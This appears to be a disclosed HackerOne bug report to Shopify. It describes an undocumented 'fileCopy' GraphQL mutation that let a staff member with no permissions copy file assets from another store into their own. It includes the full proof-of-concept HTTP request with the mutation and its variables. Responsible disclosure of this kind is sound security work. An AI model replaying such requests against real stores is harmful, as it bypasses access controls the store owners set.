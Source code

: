 # Undocumented `fileCopy` GraphQL API

## Report Details
- **Report ID**: 981472
- **URL**: https://hackerone.com/reports/981472
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-14T05:56:11.272Z
- **Disclosed**: 2020-10-22T18:43:38.511Z

## Reporter
- **Username**: ash_nz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Impact
A malicious staff account with no permissions can copy other store file assets to current store, which they have no access to.

## Details
So the story as follow 
A malicious staff member (jack_mccracken) on storeA.myshopify.com wants to upload a file on the store but could not, due to permissions restrictions. So jack_mccracken decided to find a way to bypass the restriction so he created a new store called `storeB.myshopify.com` and uploaded a file on storeB.

jack_mccracken is a skilled attacker he found an undocumented GraphQL API called `fileCopy`, he used this API to try to copy a file from his store `StorB`  to `StoreA` (where he is a staff member). 

He login into StoreA (as staff member) and send the following request:

```http
POST /admin/internal/web/graphql/core HTTP/1.1
Cookie: [REDACTED]
accept: application/json
X-CSRF-Token: [REDACTED]
Content-Type: application/json
User-Agent: PostmanRuntime/7.26.5
Postman-Token: a02c5039-29f0-4280-9084-cfe12703ff60
Host: storeA.myshopify.com
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 485

{"query":"\r\nmutation fileCopy ($key:String!,$absoluteKey:String!,$path:String!){fileCopy (key:$key,path:$path,absoluteKey:$absoluteKey) {\r\nfile{\r\n    \r\n    path\r\n}\r\n userErrors {\r\n    field\r\n    message\r\n}\r\n    }\r\n}","variables":{
                        "absoluteKey": "s/files/1/d/0864/0471/6006/6199/files/1.jpg",
                        "key": "files/1.jpg",
                        "path": "https://cdn.shopify.com/s/files/1/0471/6006/6199/files/1.jpg?6"
}
}
```

the variables `absoluteKey` `key` and `path`values  are the values of the file he uploaded in his store `storeB`

THE END

## Impact

A malicious staff account with no permissions can copy other store file assets to current store, which they have no access to.

## Attachments
No attachments
